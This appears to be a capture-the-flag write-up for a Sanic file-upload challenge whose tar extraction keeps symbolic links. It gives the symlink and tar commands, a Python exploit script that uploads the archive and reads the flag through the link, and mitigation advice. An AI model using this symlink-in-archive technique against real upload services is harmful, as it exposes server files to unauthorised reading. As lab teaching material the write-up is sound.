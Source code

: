 # 🐚 Tarrible_Storage

## 🧠 Description

This challenge revolves around a **Sanic-based file upload web application** that **extracts uploaded tar archives** into user-specific directories. It fails to properly handle **symbolic links**, allowing for a classic **path traversal via symlink injection**. Authentication is enforced via JWT.

---

## 🛠️ Environment Setup

```bash
docker build -t my-sanic-chal .
docker run -d -p 8000:8000 my-sanic-chal
```

---

## 🔍 Vulnerability

- The `/api/upload` endpoint accepts `.tar` files and extracts them directly into the user’s folder.
- It does **not filter or sanitize symbolic links**.
- The `/api/access/<filename>` endpoint **only checks that the final resolved path is inside the user’s directory**, but follows symlinks without restriction.
- This allows a symbolic link such as `get_flag → ../../flag` to be used for reading the challenge flag.

---

## 🔓 Exploitation Steps

### ✅ 1. Register and Login

- Register via `/api/signup`
- Login via `/api/login` and obtain the JWT
- Save the JWT for authenticated requests

### ✅ 2. Create a Symbolic Link & Archive

```bash
ln -s ../../flag get_flag
tar -cvf hack.tar get_flag
```

This creates a tar archive that contains a symlink pointing to the real flag file located outside the user’s directory.

### ✅ 3. Upload the Tar File

Use an authenticated POST request to `/api/upload` with the contents of `hack.tar`. Include your JWT token in the `Authorization` header.

### ✅ 4. Read the Flag via Symlink

Send a GET request to `/api/access/get_flag`. Since the symlink resolves to `../../flag`, the server reads and returns the flag file.

---

## 🧪 Exploit Code (Python)

```python
import requests

HOST = 'http://127.0.0.1:8000/'
session = requests.session()

# Use the JWT you got from /api/login
TOKEN = "Bearer <YOUR_JWT_HERE>"

headers_upload = {
    'Authorization': TOKEN,
    'Content-Type': 'application/octet-stream',
}

# Step 1: Upload malicious tar
with open('hack.tar', 'rb') as f:
    data = f.read()

res = session.post(
    url=HOST + "api/upload",
    headers=headers_upload,
    data=data,
    verify=False
)
print("Upload response:", res.text)

# Step 2: Access symlinked file
headers_access = {
    'Authorization': TOKEN,
}

res = session.get(
    url=HOST + "api/access/get_flag",
    headers=headers_access,
    verify=False
)
print("Flag:", res.text)
```

---

## ⚠️ Why This Works

- **tarfile.extractall()** does not block symlinks by default.
- **os.path.abspath + .startswith()** path validation is bypassed via symbolic links.
- Symlinks are preserved and followed by the server, allowing the attacker to escape the intended user directory.
- **This is not a directory traversal via filename, but a traversal via archived symlink!**

---

## 🧷 Mitigation Tips

- Never use `extractall()` on untrusted tar files without filtering members.
- Consider filtering or rejecting symlinks:
    ```python
    for member in tar.getmembers():
        if member.issym() or member.islnk():
            continue  # or raise error
        tar.extract(member, path)
    ```
- Always validate resolved file paths using `realpath()` to detect symlink abuse.

---

## ✅ Key Takeaways

- **Vulnerability**: Tar archive symlink bypass
- **Root Cause**: Lack of symlink validation during tar extraction
- **Exploit**:
    1. Create `ln -s ../../flag get_flag`
    2. `tar -cvf hack.tar get_flag`
    3. Upload via `/api/upload`
    4. Read via `/api/access/get_flag`
- **Auth Bypass?** ❌ No — you need valid JWT (auth is enforced properly)
- **Impact**: Disclosure of arbitrary server-side files (e.g., flag)
